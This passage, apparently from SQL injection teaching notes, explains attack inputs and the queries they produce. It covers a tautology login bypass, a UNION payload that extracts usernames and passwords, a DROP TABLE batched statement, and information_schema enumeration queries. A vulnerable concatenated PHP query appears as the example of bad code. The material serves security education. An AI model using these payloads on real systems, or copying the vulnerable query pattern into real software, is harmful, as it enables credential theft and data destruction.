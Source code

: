 **Explanation:**
- `'` closes the username string
- `OR 1=1` makes condition always true
- `--` comments out the rest (password check ignored)

#### 2. UNION-based Data Extraction

**Vulnerable Code:**
```php
$sql = "SELECT name, price FROM catalogue WHERE id=$id";
```

**Attack Input:** `1 UNION SELECT name, password FROM users#`

**Resulting Query:**
```sql
SELECT name, price FROM catalogue WHERE id=1 UNION SELECT name, password FROM users#
```

**Result**: Extracts usernames and passwords from users table

#### 3. Batched SQL Statements

**Attack Input:** `Robert'); DROP TABLE Students;--`

**Resulting Query:**
```sql
SELECT name FROM students WHERE first_name = 'Robert'); DROP TABLE Students;--') AND (active = true)
```

**Result**: Deletes the entire Students table (Bobby Tables attack)

### Advanced SQL Injection Techniques

#### Information Gathering Queries

**Get MySQL Version:**
```sql
5' UNION SELECT 1, @@version#
```

**Get Current User:**
```sql
5' UNION SELECT 1, user()#
```

**Get Database Name:**
```sql
5' UNION SELECT 1, database()#
```

**List All Tables:**
```sql
5' UNION SELECT 1, table_name FROM information_schema.tables#
```

**List Columns in Specific Table:**
```sql
5' UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name='users'#
```

### Blind SQL Injection

#### Characteristics
- Attacker cannot directly observe database query results
- Must infer information based on application behavior
- Two types:
  - **Content-based**: Different responses for TRUE/FALSE conditions

